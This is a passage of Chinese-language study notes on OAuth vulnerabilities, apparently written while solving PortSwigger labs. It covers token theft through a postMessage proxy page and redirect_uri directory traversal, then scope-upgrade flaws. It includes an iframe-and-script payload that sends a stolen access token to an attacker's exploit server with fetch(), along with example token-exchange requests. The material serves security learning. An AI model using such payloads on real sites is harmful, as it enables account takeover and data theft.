 2.XSS漏洞

3.HTML注入漏洞（一般用于CSP策略激活的网页，这会导致javascript无法注入/XSS无法注入）。类似的操作可以是通过修改redirect_uri重定向到自己的页面，然后通过内嵌img/iframe等标签泄露Referrer.

https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page

该题中的突破口与 **4.2.5**相同，referrer只支持站内url链接，但可以被目录截断。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308181206636.png)

观察博客页面，发现每个页面内都有一个iframe标签，负责载入一个标签，其中包含了子页面的部分链接：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308181215269.png)

在 **GET /POST/COMMENT/COMMENT-FORM** 请求中，发现使用了一个postMessage() 函数将属性发送`window.location.href`到其父窗口并且允许将消息发布到任何来源 ( `*`)，所以可以在这里构造跨域攻击：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308181218508.png)

实验攻击的可行性，把OAuth认证流的请求头链接复制并在Exploit server，使用iframe标签，配合刚才复制的URL进行重定向，添加一个事件监听来查看攻击服务器收到的信息：

```html
<iframe src="https://oauth-0a75007904e06a3a84458ad40275005a.oauth-server.net/auth?client_id=slqx9tml7dmvrcbwflp8t&redirect_uri=https://0aab00f404086a5f844f8c4d00540058.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

后面的展开与上一题类似，通过access log获取apikey即可：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308181238030.png)

#### 4.2.7 验证范围缺陷

在任何 OAuth 流程中，用户必须根据授权请求中定义的范围批准请求的访问。生成的令牌允许客户端应用程序仅访问用户批准的范围。但在某些情况下，由于 OAuth 服务的验证存在缺陷，攻击者可能会使用额外的权限“升级”访问令牌（窃取或使用恶意客户端应用程序获取）。

例如，假设攻击者的恶意客户端应用程序最初请求使用`openid email`范围访问用户的电子邮件地址。用户批准此请求后，恶意客户端应用程序会收到授权代码。当攻击者控制其客户端应用程序时，他们可以`scope`向包含附加范围的代码/令牌交换请求添加另一个参数`profile`：

```
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```

如果服务器没有根据初始授权请求的范围验证这一点，它有时会使用新范围生成访问令牌并将其发送到攻击者的客户端应用程序：

```
{
    "access_token": "z0y9x8w7v6u5",
    "token_type": "Bearer",
    "expires_in": 3600,
    "scope": "openid email profile",
    …
}
```

